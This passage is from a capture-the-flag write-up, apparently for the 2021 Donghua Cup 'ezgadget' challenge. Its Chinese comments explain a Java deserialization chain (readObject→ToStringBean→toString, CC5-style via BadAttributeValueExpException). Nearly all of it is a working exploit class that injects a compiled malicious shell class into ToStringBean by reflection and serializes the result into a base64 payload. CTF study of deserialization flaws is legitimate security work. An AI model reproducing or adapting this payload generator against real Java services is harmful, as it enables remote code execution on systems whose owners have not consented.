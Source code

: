 ```java
}
```

思路readObject→ToStringBean→toString

exp.java

```java
package com.ezgame.ctf;

import com.ezgame.ctf.tools.ToStringBean;
import com.ezgame.ctf.tools.Tools;

import javax.management.BadAttributeValueExpException;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Path;
import java.nio.file.Paths;

public class exp {
    public static void main(String[] args) throws Exception{
        ToStringBean toStringBean = new ToStringBean();
        Field classByteField = toStringBean.getClass().getDeclaredField("ClassByte");
        classByteField.setAccessible(true);
        //获取到shell对象编译后的地址
        byte[] bytes = Files.readAllBytes(Paths.get("G:\\CTF\\2021东华杯\\ezgadget\\exp\\out\\production\\exp\\com\\ezgame\\ctf\\shell.class"));
        //将值传入该对象的成员变量中
        classByteField.set(toStringBean,bytes);
        //到这里，危险函数部分就好了，接下来利用cc5，去调用这个危险函数

        //实例化该类的时候，不能直接像下面这样将参数直接传进行，应该使用反射
        //BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(toStringBean);
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(11111);//这个初始值之后会自动会改，所以这里随便整
        Field val = badAttributeValueExpException.getClass().getDeclaredField("val");
        val.setAccessible(true);
        //反射赋值
        val.set(badAttributeValueExpException,toStringBean);

        //它的readObject方法会去调用成员变量val的toString方法，成员变量val是Object属性的
        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
        //因为读取参数的时候，会先去读取一个字符串，一个数字，然后才是Object，所以按照顺去output
        objectOutputStream.writeUTF("gadgets");
        objectOutputStream.writeInt(2021);
        //然后才是我们的BadAttributeValueExpException类对象
        objectOutputStream.writeObject(badAttributeValueExpException);

        //base64加密一下
        //转换为字节流
        byte[] bytes1 = byteArrayOutputStream.toByteArray();
        //用该工具类Tools进行base64加密
        String s = Tools.base64Encode(bytes1);
        System.out.println(s);

    }

}
```
